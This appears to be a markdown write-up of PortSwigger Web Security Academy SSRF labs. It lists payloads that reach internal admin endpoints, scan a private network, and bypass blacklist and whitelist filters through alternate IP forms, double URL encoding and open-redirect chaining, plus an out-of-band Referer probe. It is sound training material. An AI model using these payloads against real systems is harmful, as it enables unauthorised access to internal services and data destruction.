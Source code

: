 # Server-side request forgery (SSRF)

## Common SSRF attacks

### Basic SSRF against the local server

1) Change the URL in _Check stock_ form to http://localhost/admin
2) Modify the URL from response https://ac3e1fe81ff21a7080613ef700fe00ba.web-security-academy.net/admin/delete?username=carlos
to http://localhost/admin/delete?username=carlos and use it the same way to delete the user

### Basic SSRF against another back-end system

Use Burp Suite Intruder to scan the network
```
stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2Fadmin
```

IP `192.168.0.20` responds with 200. Use the URL from response to delete Carlos
```
stockApi=http%3A%2F%2F192.168.0.20%3A8080%2Fadmin%2Fdelete%3fusername%3dcarlos
```

## Circumventing common SSRF defenses

### SSRF with blacklist-based input filters
Change `127.0.0.1` to `127.1` and double URL encode `a` in `admin`
```
stockApi=http://127.1/%2561dmin
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

### SSRF with whitelist-based input filter

Double encoded `#` in host
```
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```

### SSRF with filter bypass via open redirection vulnerability

`/product/nextProduct?path=foo` returns HTTP 302
```
stockApi=/product/nextProduct?path%3dhttp://192.168.0.12:8080/admin
stockApi=/product/nextProduct?path%3dhttp://192.168.0.12:8080/admin/delete?username%3dcarlos
```

## Blind SSRF vulnerabilities

### Blind SSRF with out-of-band detection
```
Referer: http://burpcollaborator.net
```

### Blind SSRF with Shellshock exploitation
TODO: Expert